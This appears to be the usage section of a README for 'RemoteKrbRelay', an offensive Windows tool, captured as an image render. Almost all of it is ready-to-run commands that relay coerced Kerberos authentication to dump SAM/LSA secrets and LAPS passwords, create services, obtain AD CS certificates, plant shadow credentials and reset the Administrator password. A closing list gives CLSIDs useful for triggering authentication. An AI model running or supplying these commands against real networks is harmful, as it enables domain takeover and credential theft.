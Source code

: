 ```shell
        .\RemoteKrbRelay.exe -rbcd -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -cn FAKEMACHINE$

        [2] Trigger krb auth from dc01.root.apchi (-victim). Then relay to win10.root.apchi (-target) and open interactive SMB Console.
        .\RemoteKrbRelay.exe -smb --smbkeyword interactive -victim dc01.root.apchi -target win10.root.apchi -clsid <IDK CLSID FOR THAT xD>

        [3] Trigger krb auth from dc01.root.apchi (-victim). Then relay to win10.root.apchi (-target) and dump SAM/LSA secrets from win10.root.apchi.
        .\RemoteKrbRelay.exe -smb --smbkeyword secrets -victim dc01.root.apchi -target win10.root.apchi -clsid <IDK CLSID FOR THAT xD>

        [4] Trigger krb auth from dc01.root.apchi (-victim). Then relay to win10.root.apchi (-target) and create service.
        .\RemoteKrbRelay.exe -smb --smbkeyword service-add --servicename Hello --servicecmd "c:\windows\system32\calc.exe" -victim dc01.root.apchi -target win10.root.apchi -clsid <IDK CLSID FOR THAT xD>

        [5] Get machine certificate from kerberos relay
        .\RemoteKrbRelay.exe -adcs -template Machine -target dc01.root.apchi -victim win10.root.apchi -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8

        [6] Shadow Creds
        .\RemoteKrbRelay.exe -shadowcred -victim dc01.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -forceshadowcred

        [7] Change user password
        .\RemoteKrbRelay.exe -chp -victim dc01.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -chpuser Administrator -chppass Lolkekcheb123! -secure

        [9] Dump LAPS passwords
        .\RemoteKrbRelay.exe -laps -victim dc01.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

        [10] Send LDAP Whoami request from relayed user
        .\RemoteKrbRelay.exe -ldapwhoami -victim dc01.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

        [11] Trigger authentication from another session
        .\RemoteKrbRelay.exe -ldapwhoami -victim dc01.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1

[?] Interesting CLSIDs to use
dea794e0-1c1d-4363-b171-98d0b1703586 - Interactive User. U can use with -session switch. U should be in NT AUTHORITY\Interactive
f87b28f1-da9a-4f35-8ec0-800efcf26b83 - Interactive User. U can use with -session switch. U should be in Distributed COM Users or Performance Log Users
3ab092c4-de6a-4cd4-be9e-fdacdb05759c - System account. On victim computer should be installed AD CS
6d5ad135-1730-4f19-a4eb-3f87e7c976bb - System account. On victim computer should be installed AD CS
```
